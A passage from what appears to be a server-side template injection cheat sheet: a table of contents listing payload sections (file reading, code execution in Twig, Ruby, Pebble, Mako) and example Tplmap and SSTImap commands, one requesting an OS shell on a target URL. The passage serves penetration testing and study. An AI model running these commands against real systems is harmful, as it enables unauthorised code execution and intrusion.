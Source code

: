     - [Lessjs < v3 - Command Execution](#lessjs--v3---command-execution)
    - [Plugins](#plugins)
  - [Python - Mako](#mako)
    - [Direct access to os from TemplateNamespace:](#direct-access-to-os-from-templatenamespace)
  - [Java - Pebble](#pebble)
    - [Pebble - Basic injection](#pebble---basic-injection)
    - [Pebble - Code execution](#pebble---code-execution)
  - [Ruby](#ruby)
    - [Ruby - Basic injections](#ruby---basic-injections)
    - [Ruby - Retrieve /etc/passwd](#ruby---retrieve-etcpasswd)
    - [Ruby - List files and directories](#ruby---list-files-and-directories)
    - [Ruby - Code execution](#ruby---code-execution)
  - [PHP - Smarty](#smarty)
  - [PHP - Twig](#twig)
    - [Twig - Basic injection](#twig---basic-injection)
    - [Twig - Template format](#twig---template-format)
    - [Twig - Arbitrary File Reading](#twig---arbitrary-file-reading)
    - [Twig - Code execution](#twig---code-execution)
  - [Java - Velocity](#velocity)
  - [PHP - patTemplate](#pattemplate)
  - [PHP - PHPlib](#phplib-and-html_template_phplib)
  - [PHP - Plates](#plates)
  - [References](#references)

## Tools

Recommended tools: 

[Tplmap](https://github.com/epinna/tplmap) - Server-Side Template Injection and Code Injection Detection and Exploitation Tool

e.g:

```powershell
python2.7 ./tplmap.py -u 'http://www.target.com/page?name=John*' --os-shell
python2.7 ./tplmap.py -u "http://192.168.56.101:3000/ti?user=*&comment=supercomment&link"
python2.7 ./tplmap.py -u "http://192.168.56.101:3000/ti?user=InjectHere*&comment=A&link" --level 5 -e jade
```

[SSTImap](https://github.com/vladko312/SSTImap) - Automatic SSTI detection tool with interactive interface based on [Tplmap](https://github.com/epinna/tplmap)

e.g:

```powershell
python3 ./sstimap.py -u 'https://example.com/page?name=John' -s
python3 ./sstimap.py -u 'https://example.com/page?name=Vulnerable*&message=My_message' -l 5 -e jade
python3 ./sstimap.py -i -A -m POST -l 5 -H 'Authorization: Basic bG9naW46c2VjcmV0X3Bhc3N3b3Jk'
```

## Methodology

![SSTI cheatsheet workflow](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Images/serverside.png?raw=true)

---